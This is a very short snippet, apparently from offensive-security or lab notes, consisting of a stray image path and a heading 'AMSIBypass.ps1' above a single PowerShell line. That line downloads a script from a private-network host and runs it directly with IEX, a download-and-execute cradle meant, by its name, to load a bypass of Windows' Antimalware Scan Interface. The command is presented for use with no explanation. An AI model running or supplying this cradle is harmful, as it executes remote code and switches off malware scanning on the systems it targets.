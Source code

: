 ## AMSIBypass.ps1
```
(new-object net.webclient).downloadstring("http://192.168.49.89/AMSIBypass.ps1") | IEX
```